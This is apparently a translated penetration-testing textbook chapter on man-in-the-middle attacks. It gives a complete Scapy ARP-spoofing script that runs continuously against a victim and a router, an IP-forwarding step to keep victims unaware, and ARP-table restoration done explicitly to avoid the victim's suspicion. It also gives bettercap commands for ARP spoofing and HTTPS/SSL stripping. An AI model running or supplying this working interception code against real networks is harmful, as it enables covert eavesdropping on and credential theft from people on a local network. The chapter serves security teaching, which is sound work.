









# 第五章：中间人攻击

在前一章中，我们学习了网络扫描。网络扫描是信息收集的一部分，允许用户在本地网络中找到主机。在本章中，我们将学习如何利用这些信息对本地网络上的受害者发动攻击。本章将涵盖以下主题：

+   为什么我们需要 ARP？

+   构建 ARP 欺骗程序

+   监控流量

+   加密流量

+   手动恢复 ARP 表

+   解密网络流量

# 为什么我们需要 ARP？

在前几章中，我们提到了地址解析协议是什么。在本章中，我们将更深入地研究它。在本地网络中，设备之间的通信使用 MAC 地址而不是 IP 地址进行。这些也被称为 *链路层地址*。ARP 是一种请求响应协议，这意味着一个设备请求服务，另一个设备回复响应该请求。假设一个网络中有两台设备，没有外部互联网连接。为了彼此通信，它们需要依赖一个底层协议，即第 2 层协议。我们已经简要了解了 ARP 表。通过使用 ARP 表，设备可以通过映射它们的 IP 和 MAC 地址来维护网络上所有活动设备的列表。这种 ARP 表技术相当古老，设计时没有考虑安全性。它具有一些固有的弱点，我们将在后面的章节中看到如何利用这些弱点。

## ARP 毒化

在我们学习 ARP 毒化之前，让我们再次看一下 ARP。ARP 基本上是安装在您的 PC 上的程序，它自动执行与 ARP 相关的所有任务，无需用户输入。为了从另一台机器获取地址，它将 `FF:FF:FF:FF:FF:FF` 作为广播地址放入其请求中。它通过将问题发送到网络中的所有活动设备来执行此操作。随后，预期的设备将回复适当的答案。让我们看看以下图表，了解 ARP 请求和响应是如何生成的：

图 5.1 – ARP 请求和响应

设备 `A` 发送请求，设备 `B` 回复答案，并附带其 MAC 地址。看起来相当简单，对吧？实际上，这个协议存在设计缺陷。当设备 `B` 收到请求时，它无法知道请求设备提供的信息是否正确。通过这种方式，您可以轻松地 *欺骗* 数据包。稍后我们会详细讨论这个问题。

让我们考虑一个简单的场景：

图 5.2 – 互联网通信

假设设备`A`想要与一个基于互联网的设备通信。正如我们已经知道的，它不能直接连接到互联网——它必须通过一个网关。该设备的对应 IP 和 MAC 地址显示在下图中。设备`A`和网关各自维护自己的 ARP 表。为了让设备`A`向外部服务器发送请求，它将查看自己的 ARP 表，找到网关设备的 MAC 地址。一旦成功找到该设备的 MAC 地址，它将把请求发送到网关。这在前面的图示中由**步骤 1**表示。如果局域网中只有一个设备，设备`A`的 ARP 表大致如下所示：

图 5.3 – 设备 A 中的 ARP 表

现在，由于网关是本地网络和互联网之间的桥梁，它会为数据包确定外部 IP 地址。然后，使用它自己的外部或公共 IP 地址，它将把请求转发给位于 `77.88.99.11` 的服务器。这是**步骤 2**。服务器将处理该请求并在**步骤 3**中回复路由器。路由器将接收到该回复，并确定外部数据包应该发送到哪里。它是如何确定数据包该去哪儿的呢？正如你可能猜到的，它将查看目标地址和目标端口。通过查看自己的 ARP 表，它将查找相应设备的位置。路由器中的 ARP 表大致如下所示：

图 5.4 – 路由器中的 ARP 表

在**步骤 4**中，路由器将简单地将回复转发给预定的接收方。

到目前为止，我们已经了解了正常的请求响应是如何工作的。现在，我们将加入一个额外的角色——*黑客/渗透测试员*。

ARP 的工作方式如下。正如我们所知道的，设备不断地连接和断开网络，因此 ARP 程序不会无限期地保持 ARP 表。另一个原因是**动态主机配置协议**（**DHCP**）服务器会自动为网络中的设备分配 IP 地址。因此，当设备离线时，IP 地址会再次变得可用，以便可以分配给新连接的设备。由于这个原因，网络中的设备会定期向其他设备发送*ARP 响应*，以便让它们知道自己当前的 IP 和 MAC 地址。这确保了所有设备都拥有最新的 IP 和 MAC 地址记录。现在，当一个设备收到*ARP 响应*时，它会直接更新自己的 ARP 表，而不会进行任何身份验证或验证。你能看到问题所在吗？如果一个设备创建了一个包含伪造信息的 ARP 响应并将其发送到受害者/目标机器，那么接收设备会用伪造的信息更新其 ARP 表，而不会验证数据的正确性。ARP 协议的另一个弱点是，它允许我们接收响应，即使它没有发送请求。

让我们来看看当我们将一个恶意攻击者添加到网络中时会发生什么：

图 5.5 – 攻击者已添加到网络中

在这里，属于黑客的设备`B`将生成两个伪造的*ARP 响应*——一个针对受害者，一个针对网关路由器。它会向设备`A`发送一个`ARP`回复，并伪装成路由器。同样，它还会向路由器发送一个回复，并伪装成设备`A`。现在，设备`A`和路由器都会用这些新的*伪造*信息更新它们的 ARP 表。现在，如果设备`A`像前一个案例一样向外部服务器发起请求，请求不会发送到路由器，而是会发送到攻击者。然后，攻击者可以选择将请求转发给路由器。此时，路由器会认为请求来自设备`A`，而实际上请求来自设备`B`。事实上，设备`B`正在拦截路由器和设备`A`之间的所有网络流量。还记得我们之前学过的 CIA 三元组吗？你能推测出这里违反了哪条规则吗？根据黑客打算如何利用这里的信息，所有三条规则都可能被破坏。现在，黑客实际上成了路由器和设备`A`之间的*中间人*。这就是所谓的**中间人攻击**（**MITM**）。这个漏洞非常著名，称为 ARP 中毒。

重要提示

ARP 表会在一段时间后被重置，所以仅仅发送一个数据包进行欺骗并不能正常工作。为了能够成功地进行长时间的欺骗，你需要不断地发送这些伪造的数据包，以防 ARP 表在一定时间后被重置。

# 构建 ARP 欺骗程序

在本节中，我们将学习如何构建一个 ARP 欺骗程序。在我们继续之前，让我们再次查看 Kali 和 Windows 中的 ARP 表。Kali Linux 中的 ARP 表如下所示：

图 5.6 – Kali Linux 中的 ARP 表

Windows 中的 ARP 表如下所示。请查看高亮显示的字段：

图 5.7 – Windows 10 中的 ARP 表

如你所见，它们有正确的路由器 MAC 地址，路由器位于 `192.168.74.2`。Kali 位于 `192.168.74.128`，而 Windows 10 位于 `192.168.74.129`。

为了欺骗这些设备，我们将一步一步解决这个问题。首先，我们将从用路由器的 MAC 地址欺骗受害者机器开始。

## ARP 欺骗项目

在 Kali Linux 中打开 VS Code，创建一个名为 ARP 欺骗的新项目。安装虚拟环境，如 *第二章* 所示， *入门 – 设置实验环境*。安装虚拟环境后，通过输入以下命令启用虚拟环境：

source venv/bin/activate

这将激活新的虚拟环境。在该环境中安装 `Scapy` 模块，并创建一个名为 `main.py` 的新文件。

要在一行中导入所有的 `scapy` 模块，而不必分别显式导入每个模块，可以写出以下代码：

from scapy.all import *

`*` 表示我们要导入 `scapy` 中的所有模块。如前一节所学，为了进行欺骗，我们需要创建伪造的响应。首先，我们将为受害者创建一个响应。为此，我们将创建一个 `arp` 数据包，并查看可以在其中设置哪些字段。为了创建 ARP 数据包并查看其中的字段，我们可以编写以下代码：

arp_response = ARP()

print(arp_response.show())

这段代码的输出结果如下所示：

图 5.8 – ARP 数据包字段

我们感兴趣的字段从 `op` 开始。Op 代表操作或数据包类型。这是一个 `who has` 操作，意味着它是一个 ARP 请求。但我们更感兴趣的是创建一个 ARP 响应。`hwsrc` 是 Kali 机器的 MAC 地址，类似地，`psrc` 是它的 IP 地址。`hwdst` 和 `pdst` 目前还没有设置。现在，为了欺骗受害者，我们将在此数据包中做以下修改：

+   将`op`改为`2`，这意味着这是一个响应的 ARP 数据包，而不是请求数据包。请注意，默认情况下，这个值为 1，表示它对应的是`who-has`操作。

+   将`psrc`地址字段修改为等于路由器的 IP 地址。由于我们的路由器位于`192.168.72.2`，所以我们将此字段设置为该值。

+   最后，我们将`pdst`设置为受害机器的`ip`地址，即`192.168.74.129`。我们还将设置`hwdst`地址，即受害者的 MAC 地址。

要查看 Windows 机器的 MAC 地址，你可以在命令提示符中输入以下命令，或者使用我们在上一章创建的网络扫描器：

Ipconfig /all

一旦你获得了必要的信息，接下来可以在 Python 中进行以下更改：

arp_response.op = 2

arp_response.pdst = "192.168.74.129" // Windows IP

arp_response.hwdst = "00:0C:29:BE:47:14"     // Windows MAC

arp_response.hwsrc = "00:0c:29:90:79:02"     // kali mac

arp_response.psrc = "192.168.74.2"   // 假的字段值

只有最后一个字段被构造；我们将从`192.168.74.128`发送它，同时伪装成`192.168.74.2`。当所有字段都设置完毕后，你可以打印它们来查看它们是否已正确定义：

print(arp_response.show())

以下截图显示了根据我们之前编写的代码伪造的数据包：

图 5.9 – 伪造的 ARP 数据包

在这里，你可以看到`op`字段现在是响应，而不是请求。字段的值现在是`is-at`。类似地，`psrc`字段现在伪装成了路由器的 IP 地址，而不是 Kali 的 IP 地址。请注意，我们还没有发送这个数据包。要发送此数据包，我们可以简单地使用`send`函数：

send(arp_response)

现在，如果你运行这个程序并迅速去 Windows 机器，在`arp`表被重置之前，你会看到 Windows 机器的`arp`表已经被污染，它的`arp`表项显示了错误的 MAC 地址，指向`192.168.72.2`网关。现在，它指向 Kali 的 MAC 地址，而不是实际的网关：

图 5.10 – Windows 中的污染 ARP 表

将此与*图 5.6*中的`192.168.74.2`值进行比较。这里，你可以看到这个新表中的物理地址值已被修改。请注意，如果你查看这个值的时间过长，它将被自动重置。我们稍后会学习如何防止它自动重置，以便延长污染的持续时间。

现在，让我们创建一个函数，以便我们可以轻松调用它：

def spoof_victim():

arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.129"

arp_response.hwdst = "00:0C:29:BE:47:14"

arp_response.hwsrc = "00:0c:29:90:79:02"

arp_response.psrc = "192.168.74.2"

send(arp_response)

我们将创建一个类似的函数来伪造路由器：

def 欺骗路由器():

arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.2" // 路由器的 IP 地址

arp_response.hwdst = "00:50:56:ff:74:8b" // 路由器的 mac 地址

arp_response.hwsrc = "00:0c:29:90:79:02" // kali 的 mac 地址

arp_response.psrc = "192.168.74.129" // 假装是设备 A 的 IP

send(arp_response)

在这个函数中，我们已经改变了 `pdst`、`hwdst` 和 `psrc` 的值。

完整的程序如下：

from scapy.all import *

def 欺骗受害者():

arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.129"

arp_response.hwdst = "00:0C:29:BE:47:14"

arp_response.hwsrc = "00:0c:29:90:79:02"

arp_response.psrc = "192.168.74.2"

send(arp_response)

def 欺骗路由器():

arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.2"

arp_response.hwdst = "00:50:56:ff:74:8b"

arp_response.hwsrc = "00:0c:29:90:79:02"

arp_response.psrc = "192.168.74.129"

send(arp_response)

if __name__ == "__main__":

欺骗受害者()

欺骗路由器()

注意，这只会欺骗这些设备一次。为了创建持久的欺骗，我们可以将这些函数调用添加到循环中，并在一定延迟后持续发送这些数据包。这样，`arp` 表将没有机会重置，你将能够永久欺骗这些设备，只要你的欺骗程序仍在运行。

我们也可以尝试在循环中设置退出条件。我们将使用 `KeyboardInterrupt` 来退出。使用以下代码在每 2 秒延迟后持续发送数据包：

try:

while True:

欺骗受害者()

欺骗路由器()

time.sleep(2)

except KeyboardInterrupt as err:

print("退出")

注意，你需要在文件顶部导入 time 模块。尽管我们的欺骗程序看起来已经完成，但仍然有一个小问题——如果受害者现在尝试请求互联网服务器，他们将看到互联网连接问题。运行 `arp` 欺骗程序在 Linux 上，并去 Windows 机器尝试访问一个网站。你将看到一个类似于以下的窗口：

图 5.11 – 无连接

这是因为数据包正在发送到 Kali 机器，但它正在阻止数据包的转发。为了启用数据包转发，请在 Linux 终端中运行以下命令：

sysctl -w net.ipv4.ip_forward=1

这将在 Kali 机器上启用 IP 转发。现在，Windows 用户将能够访问互联网，而不会察觉到有人正在拦截他们的流量：

图 5.12 – 启用 IPv4 转发

现在，如果你去 Windows 机器并再次尝试访问一个网站，你应该能够连接到互联网。现在，你的欺骗程序应该完美运行。

# 监控流量

要查看用户正在做什么，可以在 Kali 上打开*Wireshark*，并选择`eth0`接口来查看所有经过网络的流量。要仅查看来自 Windows 机器的流量，可以在过滤器菜单中设置过滤器。使用以下过滤器：

ip.src == 192.168.74.129

这将仅显示来自 Windows 机器的流量。现在，如果你去 Windows 机器并访问一个网站，你应该会在 Wireshark 中看到数据包到达：

图 5.13 – 来自 Windows 机器的 Wireshark 流量

在本节中，我们学习了如何毒化 ARP 表并监视受害设备与互联网之间的网络流量。在下一节中，我们将学习这些网络流量是如何加密的，以及如何破解这种加密。

# 加密流量

在互联网早期，网络流量主要是基于文本的，因此所有嗅探网络的人都能准确地看到传输的数据内容。这是极不安全的，且人们无法通过网络发送敏感信息，例如密码。从那时起，互联网发展迅速。现在，除了一些非常旧的网站外，大多数互联网流量都是安全的，并使用加密技术。这意味着即使你能看到流量，也无法读取它，因为它是加密的。如果你看到一个网站 URL 上有`https`标签，表示该网络流量是加密的，不能通过网络读取。有一些工具可以用来解密这种流量。

# 手动恢复 ARP 表

现在我们已经看到如何成功伪造数据包，当我们使用键盘中断（如*Ctrl* + *C*）关闭程序时，我们会发现 Windows 机器上的互联网再次变得不可用。这是因为 ARP 表已经被毒化，而且我们没有恢复它们，所以它们不知道如何路由网络流量。几分钟后，这一情况会自动恢复。然而，这可能引起受害者的怀疑，他们可能意识到有人在篡改他们的网络流量。为避免这种情况，我们可以在退出程序时通过发送正确的信息来恢复这些表。我们可以使用以下程序来恢复正确的值：

def restore():

# 恢复路由器表

arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.2"

arp_response.hwdst = "00:50:56:ff:74:8b"

arp_response.hwsrc = "00:0C:29:BE:47:14"

arp_response.psrc = "192.168.74.129"

send(arp_response)

# 恢复 Windows 表

arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.129"

arp_response.hwdst = "00:0C:29:BE:47:14"

arp_response.hwsrc = "00:50:56:ff:74:8b"

arp_response.psrc = "192.168.74.2"

send(arp_response)

请注意，这些值适用于我的平台；它们会根据你的平台有所不同，因此你应该相应地更改这些值。为了恢复 ARP 表，从我们的 Linux 机器向路由器发送这些值，同时伪装成设备 A。这一次，输入正确的值，而不是虚假的信息。对于 Windows 机器，也做同样的操作。最后，当发生键盘中断时，调用此函数，如下所示：

try:

while True:

spoof_victim()

spoof_router()

time.sleep(2)

except KeyboardInterrupt as err:

print("正在恢复 ARP 表")

restore()

print("退出")

在本节中，我们学习了如何毒化 ARP 表，监控网络流量，并恢复受害机器中的 ARP 表，以确保它们不会怀疑我们的活动。接下来，我们将学习如何解密这些网络流量。

# 解密网络流量

正如我们在前一节所看到的，我们可以通过中间人攻击来拦截流量。然而，这种攻击通常独立使用时效果有限，因为现在几乎所有的浏览器流量都是加密的，因此即使你能够拦截流量，也无法做太多事情。你可以通过使用 SSL 去除攻击来绕过这个过程。在没有加密的情况下拦截流量，有时在你想监控用户活动时也很有用。这可以帮助你了解用户访问哪些网站最频繁。将这些信息与社会工程攻击结合使用，可以帮助你攻破受害者的机器。

## HTTPS 与 HTTP

要理解 SSL 去除攻击如何工作，我们需要了解 **超文本传输协议` (`HTTP**) 和 HTTPS 协议的工作原理。HTTPS 是 HTTP 的 *安全* 版本，正如其名称结尾的 *S* 所示。它是在互联网初期开发的，当时信息以人类可读的文本形式发送，任何拦截或监控流量的人都可能看到正在发生的事情。

一个典型的 `HTTP` 请求大概长这样：

图 5.14 – HTTP 请求

如你所见，HTTP 请求的正文是纯文本形式，这意味着它可以轻松读取。因此，如果你以纯文本的形式将电子邮件或密码发送给服务器，黑客可能会窃取你的凭证。你已经知道这有多危险。为了解决这个问题，开发了 HTTPS，它可以加密消息的正文，确保只有服务器和请求者可以用正确的加密密钥读取，任何中间人都无法读取。当服务器收到请求后，它将回应适当的回复。服务器的回复大致如下：

图 5.15 – HTTP 回复

最后一行代表回复的主体，即用户请求的网页。在 HTTPS 的情况下，这些请求和响应的*主体*会被加密，攻击者看到的内容将是乱码。现在，让我们关注如何绕过这一点。

## 绕过 HTTPS

尽管如今大多数网站都支持 HTTPS 而非 HTTP，但为了保持向后兼容性，服务器端仍然允许来自*HTTP*的请求，并在接收到这些请求后检查客户端/请求者是否支持 HTTPS。我们可以利用这一点绕过这一安全机制。下图展示了 HTTP 请求如何与 Web 服务器协作：

图 5.16 – HTTP 循环

当客户端首次访问网站时，通常是通过 HTTP 协议，因此它会发送一个不安全的请求来启动连接。服务器接收到此请求后，会询问客户端是否支持 HTTPS。如果客户端支持 HTTPS，服务器会说，*为什么不通过 HTTPS 与我通信呢？* 客户端随后切换到 *HTTPS*。一旦发生这种情况，所有通信都会被加密。

在这里，我们将介绍我们的中间人*攻击者*。我们将通过一种方式来欺骗服务器和客户端。让我们看看以下示意图：

图 5.17 – SSL 剥离的 MITM 攻击

在第一阶段，客户端将向服务器发出 HTTP 请求。攻击者坐在客户端和服务器之间，并使用`ARP`欺骗程序来监控我们在上一章中开发的流量。攻击者会将客户端的请求转换为 HTTPS 请求，并将其转发给服务器。服务器会认为客户端是通过 HTTPS 而不是 HTTP 与之通信。类似地，攻击者会从服务器获取回复，解密并读取发生的内容。一旦完成，他们会将其转发给受害者/客户端。通过这种方式，受害者会认为服务器是在通过 HTTP 通信，而服务器会认为客户端是在通过 HTTPS 通信。同时，攻击者可以读取所有的网络流量。

攻击者的工作是加密和解密 SSL 证书，这些证书用于服务器在传输层上进行安全认证。它们构成了安全通信的基础。学习如何执行 SSL 剥离超出了本书的范围，因为它需要广泛的网络知识，这本身就可以成为一本书。我们的目标是在此使用该工具进行系统的破解。我们将使用一个著名的 SSL 剥离工具，叫做`bettercap`。我们将使用版本 2.23。请注意，最新的该组件工具似乎无法正常工作。可以从[`github.com/bettercap/bettercap/releases/download/v2.23/bettercap_linux_amd64_2.23.zip`](https://github.com/bettercap/bettercap/releases/download/v2.23/bettercap_linux_amd64_2.23.zip)下载。

下载此工具并在 Linux 上运行它。

下载后，将这个压缩文件放在 Kali Linux 上的目标位置，并解压模块。你会看到一个名为`bettercap`的可执行文件。你可以直接运行这个可执行文件，它会正常工作。然而，我建议将其放在`/usr/bin/`目录下，这样你就可以在任何地方访问它，因此将这个文件复制到`/usr/bin/`目录。

要复制文件，请使用以下命令：

sudo cp bettercap /usr/bin/bettercap

一旦复制完成，只需打开终端并输入`bettercap`来运行该文件。在继续之前，我们需要做一些准备工作。输入以下命令：

sudo bettercap

界面将如下所示：

图 5.18 – bettercap 版本

接下来，你需要更新一些内容，即名为 caplets 的一些内部文件。别担心—你不需要了解太多关于 caplets 的内容。只需输入以下命令并让魔法发生：

caplets.update

这将下载一些文件并更新它们。

退出这个程序以让更改生效。现在，让我们用以下命令再次运行程序：

sudo bettercap –-silent -iface eth0

该命令将在静默模式下运行`bettercap`，并使用`eth0`作为主要网络接口。要查看网络上有哪些设备，可以输入以下命令：

net.probe on

该命令的输出将如下所示：

图 5.19 – 网络上的实时主机

让我们尝试使用内部的`arpspoof`程序来进行这个应用。输入以下命令来设置我们 Windows 机器的`arp`欺骗：

set arp.spoof.targets 192.168.74.129

这将设置受害者。要启动`arp`欺骗程序，我们可以输入以下命令：

set arp.spoof.internal true

set arp.spoof on

这将开始欺骗设备：

图 5.20 – 设备欺骗

到目前为止，我们已经进入了`SSL`剥离部分。为了开始剥离 HTTPS 流量，我们需要去 Windows 机器并清除所有浏览历史。这将确保我们不会加载网站的缓存版本。

如果你想查看 `bettercap` 上正在运行的服务，可以使用以下**帮助**命令：

图 5.21 – 帮助命令

接下来，要查看原始的 HTTP 流量，运行以下命令：

hstshijack/hstshijack

这将开始剥离流量。现在，如果你去 Windows 机器并访问像 [google.com](http://google.com) 这样的网站，你会看到该网站连接是不安全的。如果你访问 [google.com](http://google.com)，你会注意到 URL 前面有一个*不安全*的标签。

你现在应该看到一个不安全的 Google。如果你去到运行 `bettercap` 的 Kali Linux 终端，你应该能看到网络流量。

注意！

请注意，像谷歌、脸书等大公司在其安全上投入了大量资金，并不断尝试改进其保护方法，因此今天有效的攻击手段，明天可能就不再有效了。这就是为什么渗透测试人员和网络安全防御团队总是在进行一场追逐游戏。前面的例子旨在展示这些方法如何在实践中运作。当你自己使用它时，情况可能会有所变化，这种攻击方法可能有效，也可能无效。因此，保持更新非常重要。本书的目的是让你理解渗透测试人员和安全分析师的思维方式，而不是让你停留在使用特定工具上。

# 总结

在本章中，我们基于上一章学到的知识，构建了一个 ARP 欺骗程序，使我们能够拦截局域网中的流量。然后，我们学习了 HTTP 和 HTTPS 协议的工作原理，以及它们如何通过中间人攻击被破坏。

在下一章，我们将讨论一个更令人兴奋的话题：恶意软件开发。这可以帮助我们手动控制受害者的机器并执行某些任务。通过这样做，我们将学习如何构建一个恶意软件**远程访问工具**，以控制受害者的计算机。我们将构建一个程序，使我们能够远程控制受害者的机器并执行多项任务。下一章见！
